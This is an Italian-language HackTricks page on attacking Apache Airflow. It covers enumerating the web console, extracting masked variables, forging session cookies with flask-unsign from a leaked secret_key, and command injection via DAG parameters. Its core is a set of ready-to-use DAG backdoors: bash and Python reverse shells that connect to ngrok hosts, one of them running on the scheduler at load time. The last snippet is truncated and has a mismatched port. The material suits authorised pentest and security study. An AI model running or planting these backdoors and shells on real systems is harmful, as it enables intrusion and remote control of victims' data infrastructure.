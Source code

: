 # Sicurezza di Apache Airflow

<details>

{% hint style="success" %}
Impara e pratica l'Hacking su AWS:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Impara e pratica l'Hacking su GCP: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Sostieni HackTricks</summary>

* Controlla i [**piani di abbonamento**](https://github.com/sponsors/carlospolop)!
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Condividi trucchi di hacking inviando PR ai** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repository di Github.

</details>
{% endhint %}

## Informazioni di Base

[**Apache Airflow**](https://airflow.apache.org) funge da piattaforma per **orchestrare e pianificare i data pipeline o i flussi di lavoro**. Il termine "orchestrazione" nel contesto dei data pipeline indica il processo di organizzazione, coordinamento e gestione di flussi di lavoro dati complessi provenienti da varie fonti. Lo scopo principale di questi data pipeline orchestrati è fornire set di dati elaborati e utilizzabili. Questi set di dati sono ampiamente utilizzati da una miriade di applicazioni, tra cui strumenti di business intelligence, scienza dei dati e modelli di apprendimento automatico, tutti fondamentali per il funzionamento delle applicazioni big data.

In sostanza, Apache Airflow ti permetterà di **programmare l'esecuzione del codice quando accade qualcosa** (evento, cron).

## Laboratorio Locale

### Docker-Compose

Puoi utilizzare il **file di configurazione docker-compose da** [**https://raw.githubusercontent.com/apache/airflow/main/docs/apache-airflow/start/docker-compose.yaml**](https://raw.githubusercontent.com/apache/airflow/main/docs/apache-airflow/start/docker-compose.yaml) per avviare un ambiente docker completo di Apache Airflow. (Se sei su MacOS assicurati di assegnare almeno 6GB di RAM alla VM di Docker).

### Minikube

Un modo semplice per **eseguire Apache Airflow** è farlo **con minikube**:
```bash
helm repo add airflow-stable https://airflow-helm.github.io/charts
helm repo update
helm install airflow-release airflow-stable/airflow
# Some information about how to aceess the web console will appear after this command

# Use this command to delete it
helm delete airflow-release
```
## Configurazione di Airflow

Airflow potrebbe memorizzare **informazioni sensibili** nella sua configurazione o potresti trovare configurazioni deboli in atto:

{% content-ref url="airflow-configuration.md" %}
[airflow-configuration.md](airflow-configuration.md)
{% endcontent-ref %}

## RBAC di Airflow

Prima di iniziare ad attaccare Airflow, dovresti capire **come funzionano le autorizzazioni**:

{% content-ref url="airflow-rbac.md" %}
[airflow-rbac.md](airflow-rbac.md)
{% endcontent-ref %}

## Attacchi

### Enumerazione della Console Web

Se hai **accesso alla console web**, potresti essere in grado di accedere a alcune o a tutte le seguenti informazioni:

* **Variabili** (Informazioni sensibili personalizzate potrebbero essere memorizzate qui)
* **Connessioni** (Informazioni sensibili personalizzate potrebbero essere memorizzate qui)
* Accedile in `http://<airflow>/connection/list/`
* [**Configurazione**](./#airflow-configuration) (Informazioni sensibili come la **`secret_key`** e le password potrebbero essere memorizzate qui)
* Elenca **utenti e ruoli**
* **Codice di ciascun DAG** (che potrebbe contenere informazioni interessanti)

### Recupero dei Valori delle Variabili

Le variabili possono essere memorizzate in Airflow in modo che i **DAG** possano **accedere** ai loro valori. È simile ai segreti di altre piattaforme. Se hai **autorizzazioni sufficienti**, puoi accedervi nell'interfaccia grafica in `http://<airflow>/variable/list/`.\
Di default, Airflow mostrerà il valore della variabile nell'interfaccia grafica, tuttavia, secondo [**questo**](https://marclamberti.com/blog/variables-with-apache-airflow/), è possibile impostare un **elenco di variabili** il cui **valore** apparirà come **asterischi** nell'**interfaccia grafica**.

![](<../../.gitbook/assets/image (164).png>)

Tuttavia, questi **valori** possono ancora essere **recuperati** tramite **CLI** (è necessario avere accesso al DB), esecuzione di **DAG arbitrari**, **API** che accede al punto finale delle variabili (l'API deve essere attivata) e **anche la GUI stessa!**\
Per accedere a quei valori dalla GUI, basta **selezionare le variabili** a cui si vuole accedere e **fare clic su Azioni -> Esporta**.\
Un altro modo è eseguire un **bruteforce** al **valore nascosto** utilizzando il **filtro di ricerca** finché non lo si ottiene:

![](<../../.gitbook/assets/image (152).png>)

### Escalation dei Privilegi

Se la configurazione **`expose_config`** è impostata su **True**, dal **ruolo Utente** e **in su** possono **leggere** la **configurazione nel web**. In questa configurazione, compare la **`secret_key`**, il che significa che qualsiasi utente con questa chiave valida può **creare il proprio cookie firmato per impersonare qualsiasi altro account utente**.
```bash
flask-unsign --sign --secret '<secret_key>' --cookie "{'_fresh': True, '_id': '12345581593cf26619776d0a1e430c412171f4d12a58d30bef3b2dd379fc8b3715f2bd526eb00497fcad5e270370d269289b65720f5b30a39e5598dad6412345', '_permanent': True, 'csrf_token': '09dd9e7212e6874b104aad957bbf8072616b8fbc', 'dag_status_filter': 'all', 'locale': 'en', 'user_id': '1'}"
```
### Backdoor del DAG (RCE nel worker di Airflow)

Se hai **accesso in scrittura** al luogo dove vengono **salvati i DAG**, puoi semplicemente **creare uno** che ti invierà una **shell inversa**.\
Nota che questa shell inversa verrà eseguita all'interno di un **contenitore worker di Airflow**:
```python
import pendulum
from airflow import DAG
from airflow.operators.bash import BashOperator

with DAG(
dag_id='rev_shell_bash',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = BashOperator(
task_id='run',
bash_command='bash -i >& /dev/tcp/8.tcp.ngrok.io/11433  0>&1',
)
```

```python
import pendulum, socket, os, pty
from airflow import DAG
from airflow.operators.python import PythonOperator

def rs(rhost, port):
s = socket.socket()
s.connect((rhost, port))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn("/bin/sh")

with DAG(
dag_id='rev_shell_python',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = PythonOperator(
task_id='rs_python',
python_callable=rs,
op_kwargs={"rhost":"8.tcp.ngrok.io", "port": 11433}
)
```
### Backdoor del DAG (RCE nel programmatore di Airflow)

Se si imposta qualcosa da **eseguire nella radice del codice**, al momento della stesura di questo testo, verrà **eseguito dal programmatore** dopo un paio di secondi dall'inserimento nella cartella del DAG.
```python
import pendulum, socket, os, pty
from airflow import DAG
from airflow.operators.python import PythonOperator

def rs(rhost, port):
s = socket.socket()
s.connect((rhost, port))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn("/bin/sh")

rs("2.tcp.ngrok.io", 14403)

with DAG(
dag_id='rev_shell_python2',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = PythonOperator(
task_id='rs_python2',
python_callable=rs,
op_kwargs={"rhost":"2.tcp.ngrok.io", "port": 144}
```
### Creazione DAG

Se riesci a **compromettere una macchina all'interno del cluster DAG**, puoi creare nuovi **script DAG** nella cartella `dags/` e verranno **replicati nel resto delle macchine** all'interno del cluster DAG.

### Iniezione Codice DAG

Quando esegui un DAG dall'interfaccia grafica, puoi **passare argomenti** ad esso.\
Pertanto, se il DAG non è codificato correttamente potrebbe essere **vulnerabile all'Injection di Comandi.**\
Questo è ciò che è successo in questa CVE: [https://www.exploit-db.com/exploits/49927](https://www.exploit-db.com/exploits/49927)

Tutto ciò che devi sapere per **iniziare a cercare iniezioni di comandi nei DAG** è che i **parametri** sono **acceduti** con il codice **`dag_run.conf.get("nome_parametro")`**.

Inoltre, la stessa vulnerabilità potrebbe verificarsi con le **variabili** (nota che con sufficienti privilegi potresti **controllare il valore delle variabili** nell'interfaccia grafica). Le variabili sono **accedute con**:
```python
from airflow.models import Variable
[...]
foo = Variable.get("foo")
```
Se vengono utilizzati ad esempio all'interno di un comando bash, potresti eseguire un'iniezione di comandi.

<details>

{% hint style="success" %}
Impara e pratica l'Hacking AWS:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Impara e pratica l'Hacking GCP: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Sostieni HackTricks</summary>

* Controlla i [**piani di abbonamento**](https://github.com/sponsors/carlospolop)!
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Condividi trucchi di hacking inviando PR ai** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repository di Github.

</details>
{% endhint %}
